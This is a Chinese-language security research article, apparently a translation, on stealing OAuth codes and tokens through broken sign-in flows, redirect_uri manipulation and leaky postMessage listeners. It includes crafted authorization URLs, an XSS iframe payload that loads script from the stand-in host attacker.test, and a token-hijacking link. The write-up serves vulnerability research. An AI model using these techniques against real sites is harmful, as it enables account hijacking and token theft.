




声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
本文仅以纪念我从事漏洞挖掘工作十年!感谢Egor Homakov和Nirgoldshlager,是他们带我打开了这一扇大门,这里向他们致敬!
https://web.archive.org/web/20130408005206/http://www.breaksec.com/?p=6039  <br>
https://web.archive.org/web/20130408011657/http://www.breaksec.com/?p=5753  <br>
https://web.archive.org/web/20130409071442/http://www.breaksec.com/?p=5734  <br>
https://homakov.blogspot.com/2013/03/redirecturi-is-achilles-heel-of-oauth.html?m=1  <br>
https://homakov.blogspot.com/2012/07/saferweb-most-common-oauth2.html?m=1  <br>
https://homakov.blogspot.com/2013/02/hacking-facebook-with-oauth2-and-chrome.html  <br>


当前(2022)又要怎样才能窃取Oauth tokens呢? <br>

使用OAuth结合响应类型切换、无效状态和重定向,再加上第三方javascript-inclusions，有多种容易受到攻击的场景，授权代码或令牌可能会泄露给攻击者,都会造成账户劫持;<br>
关于OAuth证书泄漏: <br>
跨源的“referer”泄露不再那么常见了，因为浏览器会删除除发出请求的域以外的所有其他信息。随着XSS审计器的引入，跨站点脚本编写(XSS)变得更加棘手(但并非完全不可能)。 <br>

内容安全策略(CSP)和受信任类型随后进入这个阶段。尽管如此，XSS也不是不可能的，但是有没有其他方法来窃取这些token呢? <br>
下面来解释一下它们是什么? <br>
很多网站允许你“用第三方登录”: <br>


您用于授权的这些第三方服务可以通过谷歌、苹果、Facebook、Twitter、Slack或任何其他提供商。它们都使用OAuth来发布某种形式的代码或令牌来验证用户对网站的身份。这允许您使用这些第三方服务之一登录，而无需提供任何登录凭据到您想要登录的网站。在本文中，我们将使用第三方服务提供商的网站登录流程称为“OAuth-dance”。<br>

有一个概念叫做“发送方约束的访问令牌”，特别是mTLS，以防止泄露的访问令牌的问题，但在这篇文章中不会讨论这个机制。<br>
## 解释不同的oauth-dance
### 响应类型
最常见的三种是: <br>

1.code + state: 该代码用于调用OAuth-provider服务器端以获得令牌。state参数用于验证正在进行操作的用户。OAuth-client负责在服务器端调用OAuth-provider之前验证状态参数。 <br>


2.id_token:这 是一个JSON Web令牌(JWT)，使用来自OAuth-provider的公共证书签名，以验证所提供的身份确实是它所声称的那个人。 <br>

3.令牌(token)。在服务端提供者(service provider.)的API中使用的访问令牌。 <br>

### 响应模式
在OAuth-dance中，授权流可以使用不同的模式向网站提供代码或令牌，以下是最常见的四种: <br>
1.查询.将查询参数重定向回网站(`https://example.com/callback?code=xxx&state=xxx`)。用于代码+状态。该代码只能使用一次，在使用该代码时，您需要OAuth客户端机密来获取访问令牌。不建议对令牌使用此模式，因为令牌可以多次使用，不应该出现在服务器日志或类似日志中。大多数OAuth-providers不支持令牌的这种模式，只支持代码。例子: <br>
apple使用`response_mode=query` 这种模式 <br>
google或者facebook使用`response_type=code` 这种模式 <br>

2.Fragment模式。使用Fragment重定向(`https://example.com/callback#access_token=xxx`)。在这种模式下，URL的Fragment部分不会出现在任何服务器日志中，只能使用javascript访问客户端。此响应模式用于令牌。例子: <br>
`response_mode=fragment`被苹果和微软所使用。 <br>
`response_type包含id_token或token`，由谷歌、Facebook、Atlassian和其他使用。 <br>

3.Web-message。使用postMessage锁定网站的固定来源: <br>
`postMessage('{“access_token”:“xxx”}',' https://example.com ')` <br>
如果得到支持，它通常可以用于所有不同的响应类型。例子: <br>
`response_mode=web_message`为苹果所使用。 <br>
`redirect_uri = storagerelay: / /……`是谷歌使用的方式。 <br>
`redirect_uri = https://staticxx.facebook.com/.../connect/xd_arbiter/.. `为Facebook所使用。 <br>


4.form-post.使用一个表单post到一个有效的redirect_uri，一个常规的post-request被发送回网站。这可以用于代码和标记。例子: <br>
`response_mode=form_post`由苹果所使用。 <br>
`ux_mode=redirect&login_uri=https://example.com/callback `被谷歌登录(GSI)使用。 <br>

一些OAuth提供者通过提供一个完整的围绕OAuth-dance的sdk包装器(如谷歌的GSI)简化了OAuth流程。这与id_token的常规OAuth流程完全相同。令牌通过form-POST或postMessage发送回网站。

## 通过postMessage窃取令牌的原理(A theory: stealing tokens through postMessage)

下面将深入挖掘这个理论的原理:

很长时间以来，我一直在寻找与postMessage实现相关的漏洞;我开发了一个[Chrome插件](https://github.com/fransr/postMessage-tracker)用于检测message,并为每个标签中的所有窗口简化检查所有`postmessage-listener`;

虽然发现的xss漏洞很少,但是其他的一些问题(比如no origin-checks)还是比较常见,但是这些问题似乎有没什么大的影响;

我的逻辑为: 带有弱源检查(weak origin-checks)或没有源检查(no origin-checks)的postMessage 监听器 将会泄露`location.href`; 而这是您正在访问的网站的URL;它会直接或间接地泄露到我可能能捕捉到它的其他地方。

例如，在一个常规的开始页面上，可以尝试获得一个OAuth代码或令牌待在网站的一个页面上，而这个网页是有上面所阐述的对应的postmessage 监听器的,然后，通过从不同的选项卡发送消息并获取位置，我将能够从监听器获得令牌。如果其返回了，我们就能偷到OAuth的tokens，而不需要利用任何XSS漏洞。

这种窃取当前URL的方法别具一格，但让URL敏感的最常见方法似乎是关注登录流。

为了进一步研究，我做了以下工作:

1.在赏金漏洞平台测试所有受欢迎项目的登陆过程

2.如果他们使用任何第三方OAuth提供者，保存他们使用的登录URL，包含所有提供者的客户端id、响应类型/模式和重定向uri。

3.注意网站上是否加载了任何postmessage -listener或任何其他第三方脚本。

4.下面就开始吧

当收集网站使用OAuth-providers的所有不同方式时，有一些可能的选择和组合，不同的网站决定使用不同的回应类型和模式组合。我主要将我的注意力集中在最受欢迎的oauth -provider上，然后看看是否可以基于其他限定符过滤网站。

## OAuth-dance中的一些问题

首先,解释破解oauth-dance的各种方法,这里主要是指导致OAuth-provider发布有效codes或令牌之间的差异;但从提供商获得令牌的网站没有成功地接收和处理令牌。我将在下文将其称为“不愉快的路径”。

在一次成功的“舞蹈”中，令牌将从网站的URL中删除。确保codes或令牌没有被网站正确地使用是让这种攻击起作用的第一步，因为我想自己窃取并使用codes或令牌。

这可能会产生各种各样的结果，但我们的想法是，最终会出现某种形式的错误页面或类似的错误页面，仍然加载第三方javascript，使得令牌泄漏。

有多种方法可以破解OAuth-dance,这些不同的方法本身没有任何影响，但如果受害者最终将codes或令牌仍然放在URL中，并与`location.href`链接在一起。他们就会变得很重要。


## 破解State

OAuth规范建议将状态参数与response_type=code结合使用，以确保发起流的用户也是在OAuth-dance之后使用code发出令牌的用户。

如果状态值无效，code将不会被使用，因为验证状态是网站的责任;这意味着，如果攻击者可以向具有有效攻击状态的受害者发送登录流链接，那么受害者的oaut-dance将失败，code将永远不会发送给oaut-provider。如果攻击者能得到code，code仍然可以使用。

- 攻击者以“X用户登录”的形式在网站上启动登录流程。
- 攻击者使用状态值，并为受害者构造一个链接，让他们用OAuth-provider登录，但使用攻击者的状态。
- 受害者用链接登录后被重定向回网站。
- 网站为受害者验证状态，并停止处理登录流，因为它不是一个有效的状态。受害者的页面出现错误。
- 攻击者会找到从错误页面泄漏代码的方法。
- 攻击者现在可以用自己的状态和从受害者泄露的code登录。


## 响应类型与响应模式 切换

改变OAuth-dance的响应类型或响应模式将影响code或令牌返回网站的方式，大多数情况下会导致意想不到的行为,我还未看到任何OAuth-provider有限制网站支持的响应类型或模式的选项，通常至少有两种或更多的OAuth-provider可以尝试进行更改。


还可以请求多个响应类型。有一个[规范](https://openid.net/specs/oauth-v2-multiple-response-types-1_0-09.html#Encoding) 解释了当请求多个响应类型时，如何向redirect-uri提供值:


如果在一个请求中，response_type只包含要求服务器返回在查询字符串中完全编码的数据的值，那么这个多值response_type的响应中返回的数据必须在查询字符串中完全编码。此建议同时适用于成功响应和错误响应。 <br>
如果在一个请求中，response_type包含任何要求服务器返回在片段中完全编码的数据的值，那么响应中这个多值response_type返回的数据必须在片段中完全编码。此建议同时适用于成功响应和错误响应。


如果遵循了这个规范，这意味着你可以要求发送code参数到网站，但如果你同时也要求`id_token`，代码参数将在片段部分而不是在查询字符串中发送。


对于谷歌的登录,是这样的:

```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?
client_id=client-id.apps.googleusercontent.com&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback&
scope=openid%20email%20profile&
response_type=code&
access_type=offline&
state=yyy&
prompt=consent&flowName=GeneralOAuthFlow
```

将重定向到`https://example.com/callback?code=xxx&state=yyy`


但是:
```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?
client_id=client-id.apps.googleusercontent.com&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback&
scope=openid%20email%20profile&
response_type=code,id_token&
access_type=offline&
state=yyy&
prompt=consent&flowName=GeneralOAuthFlow

```

将重定向到`https://example.com/callback#code=xxx&state=yyy&id_token=zzz`

苹果也是同样的逻辑:

```
https://appleid.apple.com/auth/authorize?
response_type=code&
response_mode=query&
scope=&
state=zzz&
client_id=client-id&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback
```

将被重定向到`https://example.com/callback?code=xxx&state=yyy`，

但是:

```
https://appleid.apple.com/auth/authorize?
response_type=code+id_token&
response_mode=fragment&
scope=&
state=zzz&
client_id=client-id&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback

```

将你重定向到`https://example.com/callback#code=xxx&state=yyy&id_token=zzz`

## Redirect-uri情况变化

一些OAuth-providers允许在redirect_uri的路径中进行大小写转换，而不是真正遵循保护基于重定向的流的[规范](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics-19#section-2.1):


当比较客户端重定向uri和预先注册的uri时，授权服务器必须在本机应用的localhost重定向uri中使用精确的字符串匹配(除了端口号)，参见章节4.1.3。该措施有助于防止授权码和访问令牌的泄漏(见第4.1节)。它还可以帮助检测混淆攻击(参见4.4节)。

这意味着，将`https://example.com/callback` 配置为应用程序的重定向uri，以下流程仍然可以工作:


```
https://oauthprovider.example.com/oauth2/v2.0/authorize?
response_type=id_token&
client_id=client-id&
redirect_uri=https://example.com/CaLlBaCk&
scope=openid%20profile%20email&
nonce=1&
state=yyy

```

将你重定向到:`https://example.com/CaLlBaCk#id_token=xxx` ;我测试过的所有网站都没有使用不区分大小写的路径，所以切换路径会触发不愉快的路径，显示错误或重定向到仍然存在片段的登录页面。

还请注意，使用`response_type=code`更难利用这种方式。在一个正确的OAuth-dance使用代码中，在从服务提供者获得访问令牌的最后一步中，还必须提供redirect_uri来对服务提供者进行验证。如果在舞蹈中使用的redirect_uri与网站发送给提供商的值不匹配，将不会发出访问令牌。但是，使用任何其他响应类型，比如token或id_token，都不需要最后一步的验证，因为token是在重定向中直接提供的。

## Redirect-uri附加路径

一些OAuth-providers允许将额外的数据添加到redirect_uri的路径中。这也与“Redirect-uri case shift”一样以相同的方式打破了规范。例如，有一个`https://example.com/callbackredirect uri`，发送:

```
response_type=code&
redirect_uri=https://example.com/callback%3fcode=xxx%26
```

在这些情况下会被重定向到`https://example.com/callback?code=xxx&code=real-code` 根据网站接收多个相同名称的参数，这也可能会触发一个不愉快的路径。同样适用于token和id_token:


```
response_type=code&
redirect_uri=https://example.com/callback%23id_token=xxx%26
```

结果是https://example.com/callback#id_token=xxx&id_token=real-id_token。根据javascript在有多个相同名称的参数时获取片段参数，这也可能会以一个不愉快的路径结束。

## Redirect-uri错误配置

在收集所有包含redirect_uri值的登录url时，还可以测试其他重定向uri值是否也有效。在我测试的网站上保存的125个不同的谷歌登录流中，有5个网站的开始页也作为一个有效的redirect_uri。例如，如果redirect_uri=https://auth.example.com/callback是一个正在使用的，在这5种情况下，这些也是有效的:

- redirect_uri=https://example.com/
- redirect_uri=https://example.com
- redirect_uri=https://www.example.com/
- redirect_uri=https://www.example.com

这对于实际使用id_token或token的网站来说特别有趣，因为response_type=code仍然会让OAuth-provider在获取令牌时在OAuth-dance的最后一步验证redirect_uri。

现在我为所有网站收集了“一堆不愉快的路径”。以下是我看到的不同案例:

1.最后出现在错误页面上。

2.重定向到网站的登录页面。

3.1重定向到网站的开始页。

3.2重定向回已删除参数的登录页面。

4.重定向回OAuth-provider，但要使用正确的值，包括正确的响应类型和状态，基本上可以识别出这个流程是无效的并重新尝试。


计划是专注于1、2和3.1，因为它们的参数仍然保存在URL中。我还得出结论，避免“不愉快路径”的最佳方案是第4条。

现在是时候开始寻找泄露信息的方法了。我仍然没有发现真正的漏洞，我甚至不知道在这样做是否值得。

由于postMessage-listener插件还记录页面上的iframe是否有侦听器，所以我开始关注那些在URL中有令牌的窗口中frame里面至少有一个postMessage-listener的网站。

## URL-leaking gadgets

我将把泄漏URL的不同方法归类为不同的gadget，因为它们具有不同的属性。让我们回顾一下我已经确定的不同类型。

### Gadget 1 : 泄露URL的弱的或者没有origin-check的 postMessage-listeners




这是预期的。其中一个例子是某网站的sdk，它被加载至网站上:




这个SDK公开了一个postMessage-listener，当消息类型匹配时，它发送以下消息:


从不同的来源发送消息给它:

```
openedwindow = window.open('https://www.example.com');
...
openedwindow.postMessage('{"type":"sdk-load-embed"}','*');
```

在发送包含位置的消息的窗口中将显示一条响应消息。网站location.href 为:





攻击中可以使用的流取决于登录流如何使用代码和令牌，但其思路是:


>攻击场景

1.攻击者向受害者发送一个精心制作的链接，该链接已经准备好导致OAuth-dance中的一个不愉快路径。

2.受害者点击链接。新的选项卡打开的以一个网站的oauth提供者来进行登录的流程被利用

3.不愉快的路径在被利用的网站上被触发，脆弱的postmessage -监听器加载在受害者登陆的页面上，仍然带有URL中的code或令牌。

4.攻击者发送的原始标签发送一堆postmessages至网站的新标签从而获得postmessage -listener泄漏的当前的URL

5.攻击者发送的原始标签，然后侦听发送给它的消息。当URL在消息中返回时，代码和令牌将被提取并发送给攻击者。

6.攻击者使用代码或令牌冒充受害者登录，最终走上不愉快的道路。


### Gadget 2:  sandbox/第三方域上的XSS获取URL


示例1，从沙盒框架中窃取`window.name`

5月12日，我用这个报告了在野外发现的第一条链:



巧合的是，两天后，也就是5月14日，Youssef Sammouda发表了一篇很棒的博客文章，解释了他使用Gmai劫持Facebook账户的方法(注: https://ysamm.com/?p=763,译文:https://mp.weixin.qq.com/s/bG0DF3tO68gFksp1rm1DFw)。这篇博客文章描述了一个类似流程。然而，这个bug并不是关于oauth -dance相关的，而是通过使用`iframe:d`沙盒域泄露受害者最终的URL，该沙盒域也允许加载任意javascript。沙箱访问URL中的敏感数据的原因是，当iframe加载时，它被附加到沙箱URL。


我发现的案例则有点不同。

第一个是在OAuth-dance结束的页面上加载iframe。iframe是window.location-object序列化之后的版本。这是一种旧的跨域传输数据的方法，因为iframe中的页面可以得到由父节点设置的自己的`window.name`:

```
i = document.createElement('iframe');
i.name = JSON.stringify(window.location)
i.srcdoc = '<script>console.log("my name is: " + window.name)</script>';
document.body.appendChild(i)
```


在iframe中加载的域也有一个简单的XSS:

```
https://examplesandbox.com/embed_iframe?src=javascript:alert(1)
```

正如Youssef解释的那样，如果你在一个窗口的一个域上有一个XSS，这个窗口就可以到达其他相同来源的窗口，如果这些窗口之间有父/子/打开者关系。


在我的例子中，我做了以下操作:

1.创建了一个恶意的页面，嵌入沙盒的iframe用XSS加载我自己的脚本:

```
<div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
x=createElement('script'),
x.src='//attacker.test/inject.js',
document.body.appendChild(x);" 
style="border:0;width:500px;height:500px"></iframe></div>

```

在我的脚本加载到沙盒中，我用受害者使用的链接替换了内容:

```
document.body.innerHTML = 
'<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';

```


## 参考
https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/

https://hackerone.com/reports/398054

https://www.hahwul.com/2020/05/14/vulnerability-of-postmessage/


